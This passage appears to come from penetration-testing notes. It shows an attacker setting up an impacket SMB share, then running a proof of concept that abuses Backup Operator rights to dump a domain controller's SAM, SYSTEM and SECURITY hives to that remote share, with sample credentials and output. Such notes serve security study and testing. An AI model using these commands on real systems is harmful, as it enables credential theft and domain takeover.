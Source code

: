 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`mkdir ./smbshare`

`impacket-smbserver -smb2support 'smbshare' ./smbshare`:
```
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

<div>
	<img src="./assets/logo_github.png" alt="GitHub Logo" width="16" height="auto">
	<span style="color: white; font-size: 110%;"><strong>GitHub</strong></span>
</div>

[Backup Operator Registry Backup to Domain Compromise](https://github.com/horizon3ai/backup_dc_registry?tab=readme-ov-file)

A simple POC that abuses Backup Operator privileges to remote dump SAM, SYSTEM, and SECURITY hives.

[**#Usage**]

This proof of concept is a modified version of impacket/examples/reg.py and will work with the most recent impacket release installed. All supported impacket authentication mechanisms will work.
```
root@kali:~# python3 reg.py jsmith:'Spring2021'@10.0.229.1 backup -p '\\10.0.220.51\share'
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Dumping SAM hive to \\10.0.220.51\share\SAM
Dumping SYSTEM hive to \\10.0.220.51\share\SYSTEM
Dumping SECURITY hive to \\10.0.220.51\share\SECURITY
```
